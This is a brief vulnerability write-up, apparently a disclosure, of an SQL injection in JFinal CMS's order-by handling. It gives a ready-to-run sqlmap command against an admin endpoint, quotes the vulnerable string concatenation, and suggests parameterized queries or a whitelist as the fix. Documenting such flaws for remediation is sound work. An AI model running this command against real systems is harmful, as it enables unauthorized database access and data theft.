 # POC

First of all  you should install sqlmap

you need set 

- target domain or IP
- your cookie

the run the shell

```
sqlmap -u http://targetDomainOrIP/jfinal_cms/admin/article/list_approve  --thread 8 --batch --smart  --random-agent --data "form.orderColumn=*&form.orderAsc=asc&attr.folder_id=-1&attr.title=&attr.status=-1&totalRecords=0&pageNo=1&pageSize=20&length=10"  --cookie "  your cookie  " --current-db
```

![image-20220730045358986](image-20220730045358986.png)









Sometimes  you should know that  the /jfinal_cms/    is not necessary ,you need juede the route

# principle

you can see the code of interface   /system/menu/list

```
sql.append(" order by ").append(orderBy);
```

There is a sql statement directly spliced

what is more 

There is no measure to prevent sql injection because sql injection is required here

# solution

By analyzing this function point, I found that the injection of orderby is fixed, such as id, name, menu key, so you can try to use parameterized query or make a whitelist